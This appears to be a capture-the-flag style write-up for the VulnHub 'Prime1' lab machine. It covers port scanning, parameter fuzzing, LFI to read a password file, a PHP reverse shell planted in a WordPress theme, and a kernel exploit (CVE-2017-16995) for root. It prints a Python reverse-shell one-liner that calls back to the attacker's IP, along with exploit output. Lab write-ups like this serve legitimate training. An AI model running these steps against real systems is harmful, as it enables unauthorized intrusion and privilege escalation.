 ```yaml
---
layout : post
title: Prime1 Writeup
image : prime1.png
date: 2021-07-22 10:18 +0530
tags: [WordPress Exploitation ,Kernel Exploit 4.10.0-28-generic , Parameter Fuzzing , LFI ] 
---
```


In this walkThrough we'll exploit this machine using wordpress , but need to enumerate hard to get the wordpress creds , and for PE this machine is vulnerable to Kernal exploit , experienced the rabbit holes , at Bruteforcing the victor password , and once weget into machine the is sudo executable but not at all used to get root shell  

# Nmap

```
nmap -sCV -p- -vvv 10.0.2.104
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-22 03:02 BST
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.00s elapsed
Initiating Ping Scan at 03:02
Scanning 10.0.2.104 [2 ports]
Completed Ping Scan at 03:02, 0.00s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 03:02
Completed Parallel DNS resolution of 1 host. at 03:02, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 03:02
Scanning 10.0.2.104 [65535 ports]
Discovered open port 22/tcp on 10.0.2.104
Discovered open port 80/tcp on 10.0.2.104
Completed Connect Scan at 03:02, 31.15s elapsed (65535 total ports)
Initiating Service scan at 03:02
Scanning 2 services on 10.0.2.104
Completed Service scan at 03:02, 6.11s elapsed (2 services on 1 host)
NSE: Script scanning 10.0.2.104.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.16s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.00s elapsed
Nmap scan report for 10.0.2.104
Host is up, received syn-ack (0.054s latency).
Scanned at 2021-07-22 03:02:02 BST for 38s
Not shown: 65533 closed ports
Reason: 65533 conn-refused
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8d:c5:20:23:ab:10:ca:de:e2:fb:e5:cd:4d:2d:4d:72 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDcSVb7n0rTb58TfCcHJgtutnZzqf0hl48jPxI+VHOyhiQIihkQVkshhc8LdnSUg2BRGZL+RFfNLan9Q6FY0D7T/7PMlggPtSLU80er3JJO+XMfO3NURgMtVtKS0m+nRbL9C/pKSgBewxIcPk7Y45aXjAo7tsSoJ3DZUDcaitfFbAlr+108VBSx/arOXbYtusI1E2OCj1v/VKgVA9N/FL/OHuloOZPs/hY0MoamQKy+XYNdyCtrvSeRmItf09YXhFJwfY9Tr/nk077J7cz3r3INP+AFrpKVjdUAtxNpb+zAJLMJY8WF7oRZ1B8Sdljsslkh8PPK8e6Z4/rlCaJYW0OX
|   256 94:9c:f8:6f:5c:f1:4c:11:95:7f:0a:2c:34:76:50:0b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiCXK7fYpBhJbT1KsyJkcpdXc1+zrB9rHVxBPtvA9hwTF4R4dZCZI9IpMFrperU0wqI/8uGYF9mW8l3aOAhJqc=
|   256 4b:f6:f1:25:b6:13:26:d4:fc:9e:b0:72:9f:f4:69:68 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMKMh3392Cf8RmKX5UyT6C1yLIVbncwwUg1i2P7/ucKk
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: HacknPentest
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.96 seconds

```

# Enumeration 

Web Enumeration 

using drib , secret.txt is found

![]({{site.baseurl}}/img/vulnhub/prime1/text.png)

Then start fuzzing the parameter for php pages

```
wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt --hw 12 --hc 404 http://10.0.2.104/index.php?FUZZ=something
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.0.2.104/index.php?FUZZ=something
Total requests: 951

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                
=====================================================================

000000341:   200        7 L      19 W       206 Ch      "file"  
```

so we find that file a paremeter , now lets fuzz for any lfi 

![]({{site.baseurl}}/img/vulnhub/prime1/location.png)


thwn we can movw to image.php there we'll fuzz for lfi 

![]({{site.baseurl}}/img/vulnhub/prime1/etc.png)

yes now we have the right lfi , and also it menctioned that there is a password file at /home/saket directory 

![]({{site.baseurl}}/img/vulnhub/prime1/lfi2.png)

now we have the passwd , lets try to use for wordpress 

# Exploitation 

now its easy to get into machine via wordpress

lets inject the php code into a file which returns us a reverse shell

![]({{site.baseurl}}/img/vulnhub/prime1/secret.png)

need to curl the phpfile to get a reverseshell

```
curl http://10.0.2.104/wordpress/wp-content/themes/twentynineteen/secret.php
```

nice we get a reverse shell

```
nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.0.2.93] from (UNKNOWN) [10.0.2.104] 43204
Linux ubuntu 4.10.0-28-generic #32~16.04.2-Ubuntu SMP Thu Jul 20 10:19:48 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 22:10:13 up  1:43,  1 user,  load average: 0.05, 0.17, 0.18
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guest-gy tty7     :0               21:10    2:04m  2.74s  0.22s /sbin/upstart --user
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ export RHOST="10.0.2.93";export RPORT=5555;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```

# PrivilageEsclation 

Kernal exploit 

```

uname -a
Linux ubuntu 4.10.0-28-generic #32~16.04.2-Ubuntu SMP Thu Jul 20 10:19:48 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

```

this version is vulnerable to kernal exploit 

[Here is the link to the kernal exploit ](https://github.com/kkamagui/linux-kernel-exploits/tree/master/kernel-4.10.0-28-generic/CVE-2017-16995)

```
www-data@ubuntu:/tmp$ gcc explit.c -o exploit
gcc explit.c -o exploit
www-data@ubuntu:/tmp$ ./exploit
./exploit
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff92c47b659200
[*] Leaking sock struct from ffff92c47745f800
[*] Sock->sk_rcvtimeo at offset 592
[*] Cred structure at ffff92c4789396c0
[*] UID from cred structure: 33, matches the current: 33
[*] hammering cred structure at ffff92c4789396c0
[*] credentials patched, launching shell...
# whoami
whoami
root

```